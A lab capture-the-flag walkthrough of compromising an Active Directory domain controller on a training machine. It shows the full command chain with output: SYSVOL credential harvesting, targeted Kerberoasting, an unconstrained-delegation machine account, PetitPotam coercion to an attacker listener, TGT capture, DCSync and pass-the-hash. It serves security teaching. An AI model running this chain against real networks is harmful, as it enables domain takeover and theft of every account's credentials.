

# Delegate-WriteUp

In this Windows Active Directory machine rated **Medium**, we'll compromise a Domain Controller by chaining several misconfigurations starting from unauthenticated SMB access. The key insight is that a logon script stored in SYSVOL leaks credentials in plaintext, and the compromised user has `SeEnableDelegationPrivilege`, which allows us to configure Unconstrained Delegation on a machine account we create. Ultimately capturing a TGT from the DC itself. You will learn how to:

- Enumerate SMB shares anonymously and read SYSVOL logon scripts
- Extract plaintext credentials from `.bat` files in Group Policy scripts
- Perform Targeted Kerberoasting when you have `GenericWrite` over a user
- Crack TGS hashes offline with `hashcat` and `rockyou.txt`
- Abuse `SeEnableDelegationPrivilege` + `SeMachineAccountPrivilege` to create a machine account with Unconstrained Delegation
- Add DNS records and SPNs to AD via LDAP
- Capture a Domain Controller TGT using `krbrelayx` + `PetitPotam`
- Perform DCSync with the captured TGT to dump all domain hashes

🧰 Tools used: `nmap`, `nxc`, `smbclient`, `targetedKerberoast.py`, `hashcat`, `evil-winrm`, `addcomputer.py`, `bloodyAD`, `addspn.py`, `dnstool.py`, `krbrelayx.py`, `PetitPotam.py`, `secretsdump.py`.

Let's get started.

---

## Port Scanning

We started with a full TCP SYN scan across all ports on the target.

```bash
sudo nmap --open -Pn -p- -sS -n -vvv 10.129.234.69

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
3389/tcp  open  ms-wbt-server    syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49668/tcp open  unknown          syn-ack ttl 127
49669/tcp open  unknown          syn-ack ttl 127
49670/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49673/tcp open  unknown          syn-ack ttl 127
50078/tcp open  unknown          syn-ack ttl 127
51525/tcp open  unknown          syn-ack ttl 127
60893/tcp open  unknown          syn-ack ttl 127
60899/tcp open  unknown          syn-ack ttl 127
```

Classic Domain Controller port profile. All expected AD services are present, plus WinRM on 5985 which will be useful later.

### Service Enumeration

```bash
nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49666,49668,49669,49670,49671,49673,50078,51525,60893,60899 10.129.234.69 -Pn

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-15 19:59:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Not valid before: 2026-04-14T19:49:17
|_Not valid after:  2026-10-14T19:49:17
| rdp-ntlm-info:
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   DNS_Tree_Name: delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-15T20:00:21+00:00
|_ssl-date: 2026-04-15T20:01:00+00:00; -20s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
50078/tcp open  msrpc         Microsoft Windows RPC
51525/tcp open  msrpc         Microsoft Windows RPC
60893/tcp open  msrpc         Microsoft Windows RPC
60899/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: mean: -20s, deviation: 0s, median: -20s
| smb2-time:
|   date: 2026-04-15T20:00:22
|_  start_date: N/A
```

Domain is `delegate.vl`, DC hostname is `DC1`. Windows Server 2022 (build 20348). SMB signing is required, which rules out NTLM relay attacks over SMB.
I add `delegate.vl` and `DC1.delegate.vl` to `/etc/hosts`

---

## SMB Enumeration

We check whether null/guest authentication is allowed on SMB shares.

```bash
nxc smb 10.129.234.69 -u 'Guest' -p '' --shares

SMB  10.129.234.69  445  DC1  [+] delegate.vl\Guest:
SMB  10.129.234.69  445  DC1  Share       Permissions
SMB  10.129.234.69  445  DC1  IPC$        READ
SMB  10.129.234.69  445  DC1  NETLOGON    READ
SMB  10.129.234.69  445  DC1  SYSVOL      READ
```

Guest authentication works and we have read access to `SYSVOL` and `NETLOGON`. These are default shares on every DC, but they can contain Group Policy files and logon scripts — a common source of sensitive information.

### SYSVOL Enumeration

```bash
smbclient -N //10.129.234.69/SYSVOL -c 'recurse; ls'

<SNIP>

\delegate.vl\scripts
  users.bat    A    159    Sat Aug 26 09:54:29 2023

<SNIP>
```

There's a `users.bat` script in the `scripts` directory. We download the entire SYSVOL tree and inspect it.

```bash
smbclient -N //10.129.234.69/SYSVOL -c 'prompt OFF; recurse ON; mget *'

❯ tree
.
├── DfsrPrivate
├── Policies
│   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
│   │   ├── GPT.INI
│   │   ├── MACHINE
│   │   │   ├── Microsoft
│   │   │   │   └── Windows NT
│   │   │   │       └── SecEdit
│   │   │   │           └── GptTmpl.inf
│   │   │   ├── Registry.pol
│   │   │   └── Scripts
│   │   │       ├── Shutdown
│   │   │       └── Startup
│   │   └── USER
│   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
│       ├── GPT.INI
│       ├── MACHINE
│       │   └── Microsoft
│       │       └── Windows NT
│       │           └── SecEdit
│       │               └── GptTmpl.inf
│       └── USER
└── scripts
    └── users.bat

19 directories, 6 files
```

```bash
cat scripts/users.bat -p
rem @echo off
net use * /delete /y
net use v: \\dc1\development

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator <REDACTED>
```

A plaintext password is hardcoded in the logon script. The script maps a network drive for user `A.Briggs` using `Administrator` as the username with password `<REDACTED>`. We try it directly against `A.Briggs`:

```bash
nxc smb 10.129.234.69 -u 'A.Briggs' -p '<REDACTED>'
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.69   445    DC1              [+] delegate.vl\A.Briggs:<REDACTED>
```

Valid credentials for `A.Briggs`.

---

## Targeted Kerberoasting — N.Thompson

With BloodHound we confirm that `A.Briggs` has **GenericWrite** over `N.Thompson`. This allows us to set an SPN on `N.Thompson` and request a TGS ticket for it — a technique known as Targeted Kerberoasting.



```bash
python3 targetedKerberoast.py -d delegate.vl -u 'A.Briggs' -p '<REDACTED>'

[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (N.Thompson)
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$26f9d0fd35f2e256<REDACTED_HASH>
```

We crack it offline with `hashcat`:

```bash
hashcat -m 13100 n.thompson_hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

$krb5tgs$23$*N.Thompson$<REDACTED_HASH>:<REDACTED>
```

---

## Shell as N.Thompson and User Flag

```bash
nxc winrm 10.129.234.69 -u 'N.Thompson' -p '<REDACTED>'
WINRM       10.129.234.69   5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
WINRM       10.129.234.69   5985   DC1              [+] delegate.vl\N.Thompson:<REDACTED> (Pwn3d!)
```

```powershell
evil-winrm -i 10.129.234.69 -u 'N.Thompson' -p '<REDACTED>'

Evil-WinRM shell v3.9

<SNIP>

*Evil-WinRM* PS C:\Users\N.Thompson\Documents>
```

```powershell
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> type ..\Desktop\user.txt
<USER_FLAG>
```

### Privilege Enumeration

```powershell
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
delegate\n.thompson S-1-5-21-1484473093-3449528695-2030935120-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
DELEGATE\delegation admins                  Group            S-1-5-21-1484473093-3449528695-2030935120-1121 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Two critical privileges stand out:

- **`SeMachineAccountPrivilege`** — lets us add a new machine account to the domain.
- **`SeEnableDelegationPrivilege`** — lets us configure Unconstrained Delegation on any account we control.

With these two together the attack path is clear: create a machine account, enable Unconstrained Delegation on it, force the DC to authenticate to it, and capture its TGT.

---


## Privilege Escalation — Unconstrained Delegation + PetitPotam

### Step 1 — Create a machine account and enable Unconstrained Delegation

```bash
addcomputer.py delegate.vl/N.Thompson:'<REDACTED>' -computer-name 'EVILPC$' -computer-pass 'EvilPass123!' -dc-ip 10.129.234.69
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account EVILPC$ with password EvilPass123!.
```

```bash
bloodyAD -d delegate.vl -u 'N.Thompson' -p '<REDACTED>' -H 10.129.234.69 set object 'EVILPC$' userAccountControl -v 528384
[+] EVILPC$'s userAccountControl has been updated
```

We verify the delegation flag was applied:

```bash
bloodyAD -d delegate.vl -u 'N.Thompson' -p '<REDACTED>' -H 10.129.234.69 get object 'EVILPC$' --attr userAccountControl

distinguishedName: CN=EVILPC,CN=Computers,DC=delegate,DC=vl
userAccountControl: WORKSTATION_TRUST_ACCOUNT; TRUSTED_FOR_DELEGATION
```

### Step 2 — Add SPNs and a DNS record for EVILPC

For `krbrelayx` to decrypt the incoming Kerberos tickets, the DC must authenticate using Kerberos (not NTLM). This only happens if it can resolve `EVILPC.delegate.vl` to our IP and find a matching SPN.


```bash
python3 addspn.py -u 'delegate.vl\N.Thompson' -p '<REDACTED>' -s 'HOST/EVILPC.delegate.vl' -t 'EVILPC$' --additional ldap://10.129.234.69
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

```bash
python3 dnstool.py -u 'delegate.vl\N.Thompson' -p '<REDACTED>' -r 'EVILPC' -a add -d <ATTACKER_IP> -dc-ip 10.129.234.69 10.129.234.69
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

```bash
python3 addspn.py -u 'delegate.vl\N.Thompson' -p '<REDACTED>' -s 'HOST/EVILPC.delegate.vl' -t 'EVILPC$' ldap://10.129.234.69
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

### Step 3 — Capture the TGT with krbrelayx + PetitPotam

**Terminal 1** — Start `krbrelayx` in Unconstrained Delegation mode. The `--krbsalt` and `--krbpass` values are used to decrypt incoming tickets encrypted with `EVILPC$`'s key:

```bash
sudo python3 krbrelayx.py --krbsalt 'DELEGATE.VLEVILPC$' --krbpass 'EvilPass123!' \
  --interface-ip <ATTACKER_IP>
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
[*] Running in unconstrained delegation abuse mode using the specified credentials.
[*] Setting up SMB Server

[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server
[*] Servers started, waiting for connections
```

**Terminal 2** — Use `PetitPotam` to coerce `DC1` into authenticating to `EVILPC.delegate.vl`. PetitPotam abuses the MS-EFSRPC protocol to force a machine to send its credentials to an attacker-controlled server:

```bash
python3 PetitPotam.py -u 'N.Thompson' -p 'KALEB_2341' -d delegate.vl \
  EVILPC.delegate.vl DC1.delegate.vl
/home/n0name/Documents/HTBLabs/Machines/Medium/Delegate/PetitPotam.py:23: SyntaxWarning: "\ " is an invalid escape sequence. Such sequences will not work in the future. Did you mean "\\ "? A raw string is also an option.
  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __


              ___            _        _      _        ___            _
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_|
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)

                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN


Trying pipe lsarpc
[-] Connecting to ncacn_np:DC1.delegate.vl[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

Back in Terminal 1:

```bash
[*] Setting up DNS Server
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.129.234.69
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
[*] SMBD: Received connection from 10.129.234.69
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```

The DC authenticated to our fake server using Kerberos. Because `EVILPC$` has Unconstrained Delegation enabled, the DC's TGT was embedded in the service ticket and `krbrelayx` extracted and saved it to disk.

### Step 4 — DCSync with DC1$'s TGT

```bash
export KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'
secretsdump.py -k -no-pass DC1.delegate.vl -just-dc-ntlm

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:<REDACTED_HASH>
krbtgt:502:<REDACTED_HASH>
A.Briggs:1104:<REDACTED_HASH>
N.Thompson:1108:<REDACTED_HASH>
DC1$:1000:<REDACTED_HASH>
<SNIP>
```

All domain hashes dumped.

---

## Shell as Administrator — Root Flag

```bash
evil-winrm -i 10.129.234.69 -u Administrator -H <REDACTED_HASH>

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
<ROOT_FLAG>
```

Rooted!
